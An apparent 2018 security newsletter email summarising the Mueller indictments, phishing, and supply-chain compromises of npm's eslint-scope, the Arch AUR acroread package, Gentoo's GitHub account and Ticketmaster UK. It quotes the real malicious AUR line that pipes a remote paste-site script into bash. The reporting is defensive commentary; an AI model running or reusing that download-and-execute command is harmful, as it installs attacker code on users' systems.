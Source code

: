 ```yaml
---
layout: email
title: The Mueller Indictments, NPM, Arch, Gentoo, and Ticketmaster UK
---
```


Good morning.

A longer email today, as a final farewell before I head off on a few weeks of vacation.

My [last email](/Email-update-ASD-becomes-statutory-authority-ISM-gets-update/) contained a fairly significant typo in the third-last paragraph: 'proscriptive' vs 'prescriptive'. Hopefully most of you knew what I meant!

As a follow up to that story, [this article](https://warontherocks.com/2018/07/fish-out-of-water-how-the-military-is-an-impossible-place-for-hackers-and-what-to-do-about-it/) has been making the rounds on Twitter. It's very well put together, and covers many of the same issues ASD has with recruitment and retention of good security people.

### The Mueller Indictments

One of the major stories of the week was the [indictment of 12 members of Russian Intelligence](https://lawfareblog.com/russia-indictment-20-what-make-muellers-hacking-indictment) for the hack of the Democratic National Committee in 2016. The indictments themselves are quite interesting, and the forensic work performed by Crowdstrike (and presumably, U.S. intelligence agencies) is incredibly impressive.

Tangentially related was this [Twitter thread](https://twitter.com/pwnallthethings/status/1018164868640329728) by Matt Tait ([@pwnallthethings](https://twitter.com/pwnallthethings)):

<a href="https://twitter.com/pwnallthethings/status/1018166157206016002"><img src="https://markeldo.com/images/matt-tait-phishing.PNG" alt="Tweet by Matt Tait" class="tweet"/></a>

It's worth reading the whole thread, especially the two tweets containing screenshots of the actual phishing email sent to John Podesta, as well as the fake website set up to steal his credentials. They're quite eye-opening if you've never seen a sophisticated phishing campaign.

As Tait says, modern spear-phishing is extremely effective, and that effectiveness is simply a factor of how much effort the attacker puts into it (and making a convincing phishing email isn't technically difficult). The reality is that if you're targeted by anyone competent, they're going to get your password. 

The trick is to secure yourself in a way that you're not completely screwed the moment someone else steals one of your passwords: mitigations like unique passwords and multi-factor authentication.

### Malicious module published in NPM

It's been a crazy couple of weeks for supply-chain attacks.

We'll start with the most recent, from [Bleeping Computer](https://bleepingcomputer.com/news/security/compromised-javascript-package-caught-stealing-npm-credentials/):

>A hacker has gained access to a developer's npm account and injected malicious code into a popular JavaScript library, code that was designed to steal the npm credentials of users who utilize the poisoned package inside their projects.
>
>The JavaScript (npm) package that got compromised is called eslint-scope, a sub-module of the more famous ESLint, a JavaScript code analysis toolkit.

This is precisely the sort of attack outlined by David Gilbertson in his [Medium post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5) back in January, which I mentioned in a [previous email](/Email-update-The-cabinet-files-and-supply-chain-attacks-at-scale/). Gilbertson's post was a bit of a wake-up-call to many web developers at the time, and it now seems prescient.

### Malicious package published in Arch User Repository

Two days before the NPM story, a very similar thing happened to Arch Linux. From [Bleeping Computer](https://bleepingcomputer.com/news/security/malware-found-in-arch-linux-aur-package-repository/) again:

>Malware has been discovered in at least three Arch Linux packages available on AUR (Arch User Repository), the official Arch Linux repository of user-submitted packages. [...]
>
>The incident happened because AUR allows anyone to take over "orphaned" repositories that have been abandoned by their original authors.
>
>On Saturday, a user going by the pseudonym of "xeactor" took over one such orphaned package named "acroread" that allows Arch Linux users to view PDF files.
>
>According to a Git commit to the package's source code, xeactor added malicious code that would download a file named "~x" from ptpb.pw, a lightweight site mimicking Pastebin that allows users to share small pieces of texts.

The malicious commit is [here](https://aur.archlinux.org/cgit/aur.git/commit/?h=acroread&id=b3fec9f2f16703c2dae9e793f75ad6e0d98509bc). At the bottom of the page, you can see highlighted in green the following line:

```curl -s https://ptpb.pw/~x|bash -&```

This command downloads another set of instructions and executes them, which ends up installing a scheduled service and collecting data about each compromised system.

Fortunately, the malicious change was found and removed before more damage was done.

### Gentoo's GitHub account hacked

From [The Register](https://www.theregister.co.uk/2018/06/28/gentoo_linux_github_hacked/):

>The Linux distro's officials sounded the alarm on Thursday, revealing someone managed to break into its GitHub organization account to modify software and webpages.
>
>Basically, if you downloaded and installed materials from Gentoo via GitHub, you might be compromised by bringing in malicious code. And until the all clear is given, you should avoid fetching anything from the project's 'hub org account.

Gentoo can best be described as a niche Linux distribution: it's premise is that all applications are compiled from source locally, rather than being downloaded as pre-compiled binaries (like traditional software).

Initial predictions regarding the compromise were that a project maintainer's GitHub password had been guessed, and that they must not have had [two-factor authentication](https://help.github.com/articles/about-two-factor-authentication/) enabled. Sure enough, in the follow-up [incident report](https://wiki.gentoo.org/wiki/Project:Infrastructure/Incident_Reports/2018-06-28_Github):

>The attacker gained access to a password of an organization administrator. Evidence collected suggests a password scheme where disclosure on one site made it easy to guess passwords for unrelated webpages.

In other words, the admin had the password `"Kangaroo2017!"` on another site, and `"Kangaroo2018!"` on GitHub. Compromise of the first led to compromise of the second, and a lack of two-factor authentication meant game-over.

This sort of attack is entirely predictable, and the reason that [good password practices](https://markeldo.com/Email-update-Security-trade-offs/) recommend creating unique passwords for every website/service, storing these unique passwords in a password manager, and using two-factor authentication (2FA) wherever you can. 

This has been recommended practice for many years now, and an administrator for a major Linux distribution's GitHub project should have known better. Still, it's impossible to force people to use unique passwords, and it's becoming increasingly obvious that if you don't mandate the use 2FA, users are unlikely to enable it themselves. 

For any non-trivial systems, we as an industry need to stop relying on users being conscientious, and start making these protections mandatory.

### Ticketmaster UK supply-chain attack

Ticketmaster UK has had a bad few weeks. From [The Register](https://www.theregister.co.uk/2018/06/27/ticketmaster_support_bot_hack/):

> "On Saturday, June 23, 2018, Ticketmaster UK identified malicious software on a customer support product hosted by Inbenta Technologies, an external third-party supplier to Ticketmaster," the ticket biz said in a statement.

Inbenta is a provider of the sort of "chat bot" help systems you see on many websites these days. Ticketmaster was embedding Inbenta's code on their payments page, which meant that code had visibility of any credit card details entered by Ticketmaster's customers.

This is a classic example of where a supply-chain attack is effective. Ticketmaster had put Inbenta in a highly privileged position in their system, and the attacker, rather than attacking Ticketmaster directly, instead compromised Inbenta and leveraged this privileged access to steal credit card details.

Ticketmaster's main fault was putting Inbenta in a priviliged positon they didn't even need, increasing the risk of compromise for no tangible benefit.

From the [statement](https://www.inbenta.com/en/inbenta-and-the-ticketmaster-data-breach/) by the CEO of Inbenta, Jordi Torras:

>Upon further investigation by both parties, it has been confirmed that the source of the data breach was a single piece of JavaScript code, that was customized by Inbenta to meet Ticketmaster’s particular requirements. This code is not part of any of Inbenta’s products or present in any of our other implementations.
>
>Ticketmaster directly applied the script to its payments page, without notifying our team. Had we known that the customized script was being used this way, we would have advised against it, as it incurs greater risk for vulnerability. The attacker(s) located, modified, and used this script to extract the payment information of Ticketmaster customers processed between February and June 2018.

In short, Ticketmaster screwed up. They included Inbenta's script on a webpage it had no business being, and they're now learning a painful fact about security breaches: even if the attack vector was someone else's product, your customers will still blame you. You can outsource the work, but you can't outsource the blame.